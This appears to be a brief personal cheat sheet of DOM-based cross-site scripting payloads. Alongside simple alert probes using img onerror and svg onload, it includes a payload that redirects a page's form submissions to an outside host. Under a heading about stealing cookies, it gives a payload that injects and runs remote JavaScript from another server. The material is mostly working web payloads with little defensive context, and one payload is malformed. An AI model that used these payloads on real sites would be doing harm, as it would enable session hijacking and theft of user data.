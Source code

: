 XSS DOM: 

DOM runs on the client side,the payloads are process on the browser and not on the server side 

__Basic Payloads:__

	"><img=src="aa" onerror="alert(document.domain)">


	"><svg/onload="alert(document.domain)">



__Complex Payload using POST method__

	"><svg/onload="document.forms[1].action='//sitecom.site/text.php'">



__PART2: Complex JS payload to steal Cookies:__


	- host JS file on the server. 

	- The file has an alert("XSS"); function

	- Craft a payload to connect to it :

		var s= document.createElement('SCRIPT');
		s.src= '//text.site/alert.php';

		document.body.appendChild(s);
		
	
	- Url:  "><svg/onload="var s= document.createElement('SCRIPT');s.src='//text.site/alert.php';document.body.appendChild(s);"

	

__Image Payload__ :

	- URL>>number.php?name=noImage.jpg' onerror=alert("xss");>
	
	- URL >> https://xss-doc.appspot.com/demo/3#imge.jpg' onerror=alert("xss");>

	

